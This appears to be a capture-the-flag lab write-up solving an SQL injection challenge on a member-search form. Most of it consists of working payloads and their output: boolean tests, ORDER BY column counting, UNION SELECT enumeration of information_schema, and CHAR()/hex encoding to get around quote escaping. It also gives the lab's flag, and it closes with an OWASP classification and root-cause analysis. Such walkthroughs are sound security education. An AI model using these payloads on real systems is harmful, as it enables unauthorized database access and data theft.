 # Extract the Flag from `Member_images.list_images`

### **1. the scenario**
## Recon: Understanding the form and context

1. The form is a **GET form**:

```html
<form action="#" method="GET">
  <input type="hidden" name="page" value="member">
  <input type="text" name="id" style="width:100%;">
  <input type="submit" value="Submit" name="Submit">
</form>
```

2. The parameter `id` is used in a query like:

```sql
SELECT first_name, last_name FROM users WHERE User_id = <user input>
```


* **Cause:** The application escapes quotes (`\'`) → classic **quote-escaping issue**.

---

## Step 1: Testing SQL injection

* For initial testing i try this simplest known statement : `1 OR 1=1`
* i get this output

``` ID: 1 or 1 
First name: one
Surname : me
ID: 1 or 1 
First name: two
Surname : me
ID: 1 or 1 
First name: three
Surname : me
ID: 1 or 1 
First name: Flag
Surname : GetThe
Search member by ID:
	

Submit 
```

THIS DATABASE IS VULNERABLE.


## Step 2: Determine number of columns

Use `ORDER BY` injection to find the number of columns:

```
1 ORDER BY 1-- -
1 ORDER BY 2-- -
1 ORDER BY 3-- -
```

* Stop at the first error.
* Result: 2 columns exist.

---

## Step 3: Investigating our database:


### **1. List the databases_names**
```sql 
1 UNION SELECT schema_name, NULL FROM information_schema.schemata 

```
and after investigating them one after other, **Member_images** is the one.
and it has one only table *list_images*, that i extracted using this command 

```sql 
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)


hint: CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115) = 'Member_images'
```

---

### **2. List the columns**

Injected:

```sql
1 UNION SELECT group_concat(column_name), NULL
FROM information_schema.columns
WHERE table_name=0x6c6973745f696d61676573
  AND table_schema=0x4d656d6265725f696d61676573-- -
```

```sql
The value 0x6c6973745f696d61676573 is a hexadecimal representation of the string list_images.
And The value 0x4d656d6265725f696d61676573 represents the string Member_images, a database schema.
```


* Output:

```
id, url, title, comment
```

* Only **text columns** (`title` and `comment`) are useful for finding hints or flags.

---

### **3. Extract the data**

Injected:

```sql
1 UNION SELECT title, comment FROM Member_images.list_images-- -
```

* Output highlights the `comment` associated with the title `Hack me ?`:

```
First name: Hack me ?
Surname : If I read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
Using

* **Observation:** The comment contains an **MD5 hash** and instructions:

  1. Decode the MD5 hash.
  2. Convert the result to lowercase.
  3. Apply SHA-256 on the lowercase result.

---

### **4. Follow the instructions step by step**

#### a) MD5 hash given:

```
1928e8083cf461a51303633093573c46
```

#### b) Step 1 — MD5 decode

* I can use **online MD5 lookup** tools (or a local script).
* Decoded result:

```
albatroz
```

#### c) Step 2 — lowercase

* Convert `albatroz` → `albatroz`

#### d) Step 3 — SHA-256

* Compute SHA-256 of `albatroz`, with the command : 
```bash
echo -n "albatroz" | sha256sum
```
* the **final flag** :  f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

### **5. What the vulnerability is (OWASP classification)**

#### Vulnerability name: SQL Injection — arbitrary query execution and data exfiltration via crafted input (e.g., UNION SELECT, information_schema enumeration).

OWASP Top 10 (2021) classification:
A03 — Injection.

Why: The application directly incorporates attacker-controlled input into SQL statements without proper parameterization or allowlisting, so an attacker can change the intended query logic to enumerate schemas/tables, read sensitive data, or execute destructive queries.

### ** 6. Root cause **

the application interpolates user input directly into SQL queries (no parameterization) and allows arbitrary identifiers to influence the query. This allowed an attacker to inject UNION SELECT payloads to enumerate schemas/tables/columns and exfiltrate row data. Contributing factors: overly permissive DB privileges and lack of output filtering/least privilege.





> tips:
* information_schema is a metadata database provided by most RDBMSs for listing databases/tables/columns
* schemata is the table that lists all schemas/databases on the server 
* CHAR(...) / 0x... encoding  used to bypass naive filters and quoting differences between DB engines.
* Column-count & type matching — attackers often trial-and-error to match the number and datatypes of columns returned by the original query
* Why GROUP_CONCAT / GROUP_CONCAT(column) — to combine column names into a single output cell
